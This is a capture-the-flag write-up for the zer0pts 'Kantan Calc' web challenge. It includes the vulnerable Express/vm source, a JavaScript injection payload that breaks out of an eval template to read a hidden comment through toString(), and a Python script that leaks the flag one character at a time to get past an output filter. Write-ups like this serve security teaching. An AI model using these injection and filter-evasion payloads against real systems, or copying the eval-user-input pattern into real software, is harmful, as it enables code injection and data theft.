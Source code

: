 # Kantan Calc
We can eval up to 29 charactes of js code in a new vm context. Our code is oput after the return statement of an anonymous function which is called and its output is shown on the webpage. The flag is in a comment after our source code in the same anonymous function.
## Ideas:
I knew beforehand that you can obtain a functions source code via .toString() on the function. But the function with the flag in the comment was anonymous so there is way to access it.

Functions in js have an implicity defined variable called arguments[todo mdn link], which not only contains the arguments but has a callee and caller fields as well. Sadly both are not usable in strict mode.

My next try was using an exception/stack trace. I was hoping to access individual stack frames and/or the functions source code. But js exception objects can only generate a stacktrace which contains file/line-nr pairs and no source code.

## Syntactic shenanigans:
After some more googling and trying random stuff i realized that there was no good way to access the anonymous function from within. S took a step back and looked at the source code again
```javascript=
`'use strict'; (function () { return ${code}; /* ${FLAG} */ })()`
```
The code is intended to be a single function with a single return statement but we can insert arbitrary(as long as its less than 30 characters) text.
So my idea was to take the first part
```
'use strict'; (function () { return
```
and make it return a function that takes the 
```
; /* ${FLAG} */ })()
```
part (as its own function) as parameter and calls toString on it.
The only issue is the last paranthesis pair at the end. Our code has to run without an error so our function needs to return something callable again.
Here is my initial solution:
```
(a)=>()=>(a+"")[0]})()(()=>{
```

how it will be executed:
```javascript
'use strict';
(function () { return (a)=>()=>(a+"")[0]})()(()=>{; /* ${FLAG} */ })()

//formated:
(function () {
    return (a)=>()=>(a+"")[0]
})
()
(()=>{; /* ${FLAG} */ })
()
```
We return a function that takes an argument a, which we set to a function that contains only a ; and the flag as the comment.
We now return another function, to be called by the final () in which we convert the function to a string via the +"". This is shorther than toString and does the same.
Now the last part was avoiding the filter that blocks any output containing "zer0pts" which is part of the flag.
I did this by simply leaking one char at a time.

Final exploit:
```python
import requests
import re
def get_flagpos(pos):
    server = "http://web.ctf.zer0pts.com:8002/"
    payload = '(a)=>()=>(a+"")['+str(pos)+']})()(()=>{'
    rq = requests.get(server, {"code":payload})
    return re.search('<output>(.*)</output>', rq.content.decode()).group(1)
"".join([get_flagpos(c) for c in range(10,55)])
```
And we get 'zer0pts{K4nt4n_m34ns_4dm1r4t1on_1n_J4p4n3s3} '

## Kantan Sourcecode:

```const express = require('express');
const path = require('path');
const vm = require('vm');
const FLAG = require('./flag');

const app = express();

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'pug');

app.use(express.static(path.join(__dirname, 'public')));

app.get('/', function (req, res, next) {
  let output = '';
  const code = req.query.code + '';

  if (code && code.length < 30) {
    try {
      const result = vm.runInNewContext(`'use strict'; (function () { return ${code}; /* ${FLAG} */ })()`, Object.create(null), { timeout: 100 });
      output = result + '';
      if (output.includes('zer0pts')) {
        output = 'Error: please do not exfiltrate the flag';
      }
    } catch (e) {
      output = 'Error: error occurred';
    }
  } else {
    output = 'Error: invalid code';
  }

  res.render('index', { title: 'Kantan Calc', output });
});

app.get('/source', function (req, res) {
  res.sendFile(path.join(__dirname, 'app.js'));
});

module.exports = app;
```
